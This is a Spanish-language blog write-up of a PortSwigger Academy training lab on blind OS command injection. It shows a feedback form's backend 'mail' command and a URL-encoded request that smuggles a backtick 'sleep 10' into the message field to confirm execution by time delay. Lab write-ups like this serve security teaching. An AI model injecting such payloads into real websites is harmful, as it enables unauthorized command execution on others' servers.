




+++
author = "Alux"
title = "Portswigger Academy Learning Path: OS Command Injection Lab 2"
date = "2021-12-01"
description = "Lab: Blind OS command injection with time delays"
tags = [
    "command injection",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind OS command injection with time delays

En este <cite>laboratorio[^1]</cite>la finalidad es obtener ejecucion de comandos en el sitio web, pero ya que no se recibe respuesta hay que ingresar un delay para saber que se ejecuto la inyeccion correctamente.


## Reconocimiento

La web cuenta con un formulario para el envio de feedback hacia el correo del servidor.



Hasta ahi todo bien pero hace una peticion que lo que hace es enviar el correo por medio de una consulta por terminal de `mail` que es para el envio de correo por terminal linux.



El tipo de ejecucion que se hace al backend es:

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

## Explotacion

Lo que haremos es inyectar otros parametros para poder ejecutar otros comandos, y queremos ejecutar la siguiente consulta para que nos devuelva el nombre del usuario que esta ejecutando el script

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com `sleep 10`
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com $(sleep 10)
```
Por lo que la peticion quedaria asi (codificada en formato URL)

```
csrf=19jGeYaNMECUmKvnBJNL0vXbIEuE06Cj&name=name&email=email%40mail.com&subject=subject&message=message+`sleep+10`%0D%0A
```

Y obtenemos una ejecucion de comandos dentro del servidor, porque la respuesta ha tardado 10 segundos en contestar como se puede ver en la `esquina inferior derecha`



Y con esto hemos resuelto el lab



[^1]: [Laboratorio](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)